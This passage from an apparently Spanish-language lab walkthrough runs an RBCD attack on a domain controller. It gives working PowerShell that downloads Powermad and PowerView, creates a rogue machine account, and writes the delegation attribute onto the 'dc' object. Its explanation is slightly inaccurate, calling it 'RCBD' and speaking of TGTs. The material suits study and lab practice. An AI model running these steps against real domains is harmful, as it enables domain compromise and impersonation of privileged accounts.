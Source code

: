 Procederemos a crear con **Powermad** un equipo llamado "SERVICEA" y le asignaremos de contraseña '123456'

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1

upload Powermad.ps1
<strong>
</strong><strong>Import-Module .\Powermad.ps1
</strong>
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
</code></pre>

<figure><img src="../../../../../.gitbook/assets/867_vmware_ZMhwWDPSWp.png" alt=""><figcaption></figcaption></figure>

Procederemos a descargarnos PowerView a nuestra Kali, la pasaremos al equipo víctima e importaremos el módulo para tener los comandos disponibles.

{% code overflow="wrap" %}
```powershell
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

upload PowerView.ps1

Import-Module .\PowerView.ps1
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/871_vmware_G4sUuKRygT.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que el objeto de ordenador que hemos creado "SERVICEA" se ha creado correctamente. Comprobamos que se ha creado sin problemas y tenemos el SID del objeto, lo cual es su identificador.

```powershell
Get-DomainComputer SERVICEA
```

<figure><img src="../../../../../.gitbook/assets/872_vmware_hW02qBDnFH.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar lo que nos queda para finalizar el **RCBD Attack**.

Al configurar el atributo `´msds-allowedtoactonbehalfofotheridentity'` en el objeto de ordenador `'SERVICEA'`, le otorgamos la capacidad de actuar en nombre de otros usuarios dentro del controlador de dominio (dc). Este proceso se basa en la delegación de recursos (RBCD), que permite que un equipo pueda solicitar acceso a ciertos recursos como si fuera otro usuario.

Específicamente, al aplicar este cambio, `SERVICEA` obtiene permisos para solicitar un Ticket Granting Ticket (TGT) en nombre de otras cuentas, incluyendo aquellas con permisos elevados. En un entorno de ataque, este TGT permite que `SERVICEA` acceda a servicios o realice acciones en el dominio como si fuera el usuario original, logrando así una impersonación dentro del controlador de dominio.

{% code overflow="wrap" %}
```powershell
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'
```